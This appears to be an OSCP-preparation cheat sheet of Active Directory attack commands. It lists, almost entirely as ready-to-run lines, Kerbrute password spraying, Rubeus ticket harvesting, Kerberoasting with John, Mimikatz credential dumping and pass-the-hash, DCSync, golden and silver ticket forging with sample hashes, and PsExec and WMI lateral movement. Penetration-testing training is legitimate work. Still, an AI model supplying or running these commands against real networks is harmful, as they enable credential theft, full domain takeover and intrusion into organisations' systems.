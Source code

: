   - [Kerbrute](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#kerbrute)
  - [Rubeus](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#rubeus)
  - [Roasting](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#roasting)
  - [Mimikatz](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#mimikatz)
  - [Lateral Movement](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#lateral-movement)

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus

```Rubeus.exe harvest /interval:30```

```Rubeus.exe brute /password:$PASSWORD /noticket```

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting

```Rubeus.exe kerberoast /nowrap```

```Rubeus.exe asreproast /nowrap```

```john hash.txt```

```john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```

```--format=krb5tgs```


# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT:

```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
```

```sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

* * * 

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now we can create a Golden Ticket:
```Kerberos::purge```

```
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Prove we have DA permissions:
```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```kerberos::list```

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'```

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'```

# Lateral Movement
```PsExec.exe -accepteula \\$HOSTNAME cmd```

```psexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```smbexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```wmiexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

